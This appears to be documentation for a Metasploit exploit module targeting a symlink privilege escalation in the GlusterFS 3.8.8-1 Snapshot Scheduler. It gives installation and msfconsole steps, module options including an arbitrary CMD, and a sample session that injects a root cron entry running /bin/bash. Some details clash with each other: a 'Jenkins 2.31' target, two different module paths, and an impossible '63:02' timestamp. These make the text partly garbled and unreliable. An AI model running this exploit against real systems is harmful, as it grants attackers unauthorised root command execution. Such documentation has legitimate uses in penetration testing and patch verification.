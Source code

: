 ## Vulnerable Application

The Snapshot Scheduler in GlusterFS 3.8.8-1 or below is vulnerable to privilege escalation via a crafted symlink.
Any gluster client allowed to mount gluster volumes could also mount the shared gluster storage volume and escalate privileges by scheduling a malicious cronjob via symlink.

GlusterFS can be downloaded from its [official site](https://www.gluster.org/install/).

## Verification Steps

  1. Install GlusterFS 3.8.8-1: `apt install glusterfs-server=3.8.8-1`
  2. Install GlusterFS-Client: `apt install glusterfs-client`
  3. Start `msfconsole`
  4. Do: `use exploit/linux/local/gluster_shared_storage_hijack`
  5. Do: `set RHOST [target host, defaults to localhost]`
  6. Do: `set CMD 'touch /tmp/foo.bar'`
  7. Do: `run`
  8. It should create `/tmp/foo.bar` on the target host at the given crontab time.

## Required Options

  **RHOST**

  Address of Gluster server, can be localhost.

  **GLUSTERBIN**

  Path to mount.glusterfs binary. Defaults to /sbin/mount.glusterfs.

  **GLUSTERCRON**

  Path to gluster cron file. Defaults to /snaps/glusterfs_snap_cron_tasks.

  **GLUSTERMNT**

  Directory where the vulnerable volume will be mounted. Defaults to /tmp/gevaudan.

  **GLUSTERVOL**

  Gluster volume to mount. Defaults to gluster_shared_storage.

  **CMD**

  The command to force crontab to execute.


## Scenarios

  Example usage against a unix target running Jenkins 2.31.

  ```
  msf5 exploit(unix/gluster_shared_storage) > check
  [*] poc-server The target appears to be vulnerable.
  msf5 exploit(unix/gluster_shared_storage) > exploit

  [-] Attempting to exploit Gluster instance on poc-server...
  [+] Volume poc-server:/gluster_shared_storage exploited successfully. Mounted on '/tmp/gevaudan'.
  Volume content (Showing latest 10 entries only):

  total 4.0K

  -rw-r--r-- 1 root root 0 Jun 6 02:41 passwords.txt
  -rw-r--r-- 1 root root 0 Jun 6 02:41 wallet.dat
  -rw-r--r-- 1 root root 0 Jun 6 02:41 secret_key
  -rw-r--r-- 1 root root 0 Jun 6 02:41 secret_file
  drwxr-xr-x 3 root root 4.0K Jun 6 63:02 snaps

  [+] Cron file '/tmp/gevaudan/snaps/glusterfs_snap_cron_tasks’ altered successfully.
  [+] Cron file injected entry:
  [+] 0 6 * * * /bin/bash
  [+] This will run as root on poc-server.

  Don't forget to unmount /tmp/gevaudan after use.
  [*] Exploit completed, but no session was created.

  msf5 exploit(unix/gluster_shared_storage) > 
  ```